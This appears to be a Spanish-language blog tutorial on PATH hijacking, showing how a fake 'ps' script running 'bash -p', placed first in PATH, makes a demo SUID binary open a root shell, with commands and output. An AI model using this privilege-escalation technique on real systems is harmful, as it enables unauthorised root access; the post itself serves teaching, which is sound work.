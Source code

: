 ```yaml
---
date: 2021-09-07T20:22:05.000Z
layout: post
comments: true
title: PATH Hijacking
subtitle: 'y su explotación en un binario SIUD'
description: >-
image: >-
  http://imgfz.com/i/xyCN3gM.png
optimized_image: >-
 http://imgfz.com/i/xyCN3gM.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Con el comando ```strings``` se nos permite listar las cadenas de carácteres imprimibles de un binario. ```strings demo``` nos podría mostrar el comando aplicado a nivel de sistema osea podría ser ```/usr/bin/ps```, detectado en ```demo.c```. Esto es PATH hijacking, que es el secuestro del PATH para alterar el flujo de como operan los comandos por el orden de prioridad. Ejemplo:

```bash
user$ touch ps
user$ chmod +x ps [Esto permitirá la ejecución]
user$ nano ps
```

Le asignamos que nos ejecute una bash, con la flag ```-p``` para que direccione directamente al propietario y me pueda convertir en root.
```bash
bash -p
```

Ahora alteramos nuestro propio PATH a través del comando ```export```:

```bash
user$ echo $PATH
/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ export PATH=/tmp:$PATH
user$ echo $PATH
/tmp:/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ ls
ps
user$ cd /home/user/Desktop/
user$ ls
demo  demo.c
user$ pwd
/home/user/Desktop/
user$ ./demo

[*] Listando procesos (/usr/bin/ps):

    PID TTY          TIME CMD
   29098 pts/0    00:00:01 sudo
   29099 pts/0    00:00:00 su
   29100 pts/0    00:00:00 gitstatusd-linu
   29103 pts/0    00:00:00 demo
   29137 pts/0    00:00:00 sh
   31299 pts/0    00:00:00 ps


[*] Listando procesos (ps):

admin@kali:/home/root/Desktop# whoami
root
```

Y así es como se obtiene acceso a través de PATH Hijacking.
